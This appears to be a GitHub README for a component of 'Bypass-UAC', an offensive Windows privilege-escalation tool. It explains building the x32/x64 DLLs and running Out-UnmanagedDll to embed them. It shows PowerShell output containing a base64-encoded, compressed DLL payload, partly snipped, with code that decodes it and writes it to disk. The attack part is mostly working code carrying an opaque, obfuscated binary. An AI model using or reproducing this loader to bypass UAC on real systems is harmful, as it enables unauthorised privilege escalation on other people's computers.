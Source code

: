 # Build

This project was built with Visual Studio 2015.

# Replace Code In Bypass-UAC

After compiling the x32/x64 dll's, the "Out-UnmanagedDll" script can be used to generate output which allows for easy integration into Bypass-UAC. This script is based on [@mattifestation](https://twitter.com/mattifestation)'s post [here](http://www.exploit-monday.com/2012/12/in-memory-dll-loading.html).

```
PS C:\> Out-UnmanagedDll -FilePath C:\Some\Path\output.dll

$EncodedCompressedFile = @'
7V0JmBvFlX7jjBPbHDYbYIHsEgH2jg88nsM22NhuaSSNR/ZcHs1hG8PQI7Vm2pa6RXfL9jgkHLYDZjA2IewmQMy1RyBkEwIbh8sxkOWMwxFgl2MTw3Ltt2Rhv5BNSDbx/lUtzUialtTd0pjvy0bwT6urXv3vdXW9qlfVLVfb+r30KSKqBo4cIfoBmR8vlf4cBo7//APH031TD53xg6rWQ2d0D8m6J6mpg5qY8ERERVENz4Dk0VKKR1Y8gY6wJ6FGpdrjjps2M82RWDH30J

[..Snip..]

ZcLWRNzDhmQMZctr6mvrajySElGj6ECW1/R0N88/t8bDwsGoyH4KvbxmWNJrhBXHTVuGEExKDMSHPSBQ9OU1KU1ZqrOBVdTnJ+SIpupqzJiP/n2pqCdqN9fXeBKiIscwzvVmawOVx7MMUSZ7KzKmptnOLMHWeCYvh5K6FElpsjGcPkeKJl2cghYpysZ3OS4NSvpoZnZ2cCuK8p/RSZuluCfO/i6vETE8blY3SVqNJyX7IqxrXF4TE+O6VONZMKZkQWEtyxbk2LRswejFsWpbkKk3nIzrl/4ffmaY46uvLlYXr3uz7vT6efVL6j9po/70OVqf/wM=
'@
$Stream = new-object -TypeName System.IO.MemoryStream
$DeflateStream = New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($EncodedCompressedFile),[IO.Compression.CompressionMode]::Decompress)
$buffer = New-Object Byte[](32256)
$count = 0
do
    {
        $count = $DeflateStream.Read($buffer, 0, 1024)
        if ($count -gt 0)
            {
                $Stream.Write($buffer, 0, $count)
            }
    }
While ($count -gt 0)
$array = $stream.ToArray()
$DeflateStream.Close()
$Stream.Close()
Set-Content -value $array -encoding byte -path $DllPath
```